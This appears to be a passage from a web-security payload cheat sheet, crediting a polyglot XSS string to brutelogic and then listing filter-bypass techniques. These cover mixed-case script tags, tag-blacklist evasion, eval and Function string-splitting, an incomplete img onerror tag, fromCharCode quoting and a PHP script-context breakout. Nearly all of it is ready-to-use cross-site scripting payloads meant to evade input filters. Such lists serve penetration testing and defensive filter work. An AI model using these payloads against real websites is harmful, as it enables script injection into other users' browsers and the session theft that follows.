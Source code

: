 
Polyglot XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)
```javascript
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

### Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```
